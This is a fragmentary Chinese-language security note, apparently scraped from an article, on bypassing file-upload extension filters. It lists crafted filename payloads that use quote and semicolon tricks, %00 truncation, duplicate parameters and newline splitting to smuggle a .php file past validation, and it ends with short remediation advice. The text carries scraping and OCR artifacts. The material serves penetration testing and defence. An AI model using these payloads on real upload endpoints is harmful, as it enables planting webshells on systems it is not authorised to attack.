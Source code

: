#单引号、双引号、分号-
filename=x.php-
filename="x.php-
filename='x.php-
filename="a.jpg;.php";

# %00、换行-
filename="a.php%00.jpg"-
filename="Content-Disposition : form-data;name="upload_file" ; x.php"-
filename="x.jpg" ; filename="x.jpg" ; . . . ..filename="x.php";-
filename=-
"-
x-
.-
p-
h-
p-
"-
;

`

*   ；截断
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhIGiadFJszptgErq0EDZ2wibJay9s5xtqbu4eMywoFV76b7wdlATFQbZQ%2F640%3Fwx_fmt%3Dpng)
    
*   重复参数
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhW0AKoyp1PrMiaUn5OJZJ4wZZH8W5Nf2bGiaJdJGJfY27GWQOkJohReNg%2F640%3Fwx_fmt%3Dpng)
    
*   借助白名单，在filename内写入前面的一些数据，最后再写入x.php，程序判定filename时发现有前面的数据就放行，遇到x.php后发现没有变量接收，然后放弃检测，但最后x.php上传给了filename
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMh1xoO4nXRa9cTricLibLXbdibhBGx67JtibBg2pOIrN3rSKnx248fFNsNAA%2F640%3Fwx_fmt%3Dpng)
    
*   /截断
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhGvlsx0H0ykW4bmqjZ39StaLCHmYLZOWibU4xicluyic98YZETRic5nxlpw%2F640%3Fwx_fmt%3Dpng)
    

`#文件上传安全修复方案-
后端验证:采用服务端验证模式后缀检测:-
基于黑名单，白名单过滤M工ME检测:-
基于上传自带类型检测-
内容检测:文件头，完整性检测

